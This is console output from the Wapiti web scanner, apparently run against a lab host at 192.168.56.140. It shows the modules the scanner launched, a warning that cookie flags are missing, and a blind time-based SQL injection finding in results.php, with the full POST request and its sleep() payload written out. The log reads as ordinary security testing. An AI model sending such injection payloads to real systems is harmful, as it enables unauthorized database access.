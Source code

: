 ```console
http://192.168.56.140/server-status
---
1 requests were skipped due to network issues

[*] Launching module redirect

[*] Launching module buster

[*] Launching module wp_enum
No WordPress Detected

[*] Launching module crlf

[*] Launching module file

[*] Launching module brute_login_form

[*] Launching module sql

[*] Launching module ssl

[*] Launching module shellshock

[*] Launching module htp

[*] Launching module cookieflags
Checking cookie : PHPSESSID
HttpOnly flag is not set in the cookie : PHPSESSID
Secure flag is not set in the cookie : PHPSESSID

[*] Launching module xxe

[*] Launching module permanentxss

[*] Launching module timesql
---
Blind SQL vulnerability in http://192.168.56.140/results.php via injection in the parameter search
Evil request:
    POST /results.php HTTP/1.1
    Content-Type: application/x-www-form-urlencoded

    search=%27%20or%20sleep%287%29%231
---

[*] Launching module methods

[*] Generating report...
A report has been generated in the file /home/devloop/.wapiti/generated_report
Open /home/devloop/.wapiti/generated_report/192.168.56.140_03232023_1057.html with a browser to see this report.
```
